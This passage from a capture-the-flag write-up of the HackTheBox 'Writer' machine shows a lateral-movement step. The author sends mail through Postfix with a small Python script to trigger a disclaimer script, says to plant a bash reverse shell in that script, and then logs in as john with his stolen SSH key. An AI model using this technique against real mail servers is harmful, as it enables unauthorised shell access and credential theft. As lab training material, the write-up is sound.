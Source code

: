 ```bash
250 2.1.0 Ok
rcpt to: john@writer.htb
250 2.1.5 Ok
data
354 End data with <CR><LF>.<CR><LF>
Subject: test
Test test test.
.
250 2.0.0 Ok: queued as D0AEF7EC
```

Nothing. Trying to send with sendmail:

```bash
kyle@writer:/etc/postfix$ echo "Test" | sendmail -r kyle@writer.htb john@writer.htb
```

Nothing.

So, I wrote a simple python3 script to send email to john:

```python
kyle@writer:~/dont_touch$ cat postfix.py 
#!/usr/bin/env python3
import smtplib

host = '127.0.0.1'
port = 25
sender = 'kyle@writer.htb'
receiver = 'john@writer.htb'
message = """
    Subject: Test

    TEST
"""
smtp = smtplib.SMTP(host, port)
smtp.ehlo()
smtp.sendmail(sender, receiver, message)
smtp.quit()
```

It is also important to paste bash reverse shell at the beginning of the disclamer script. Finally, got john. Also found John private ssh key and logged in via ssh:

```bash
┌──(kali㉿kali)-[~/…/HackTheBox/Medium/Writer/privesc]
└─$ ssh john@10.10.11.101 -i john_id_rsa 
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue 17 Aug 19:43:06 UTC 2021

  System load:           0.0
  Usage of /:            65.4% of 6.82GB
  Memory usage:          35%
  Swap usage:            0%
  Processes:             264
  Users logged in:       1
  IPv4 address for eth0: 10.10.11.101
  IPv6 address for eth0: dead:beef::250:56ff:feb9:22e

0 updates can be applied immediately.

The list of available updates is more than a week old.
```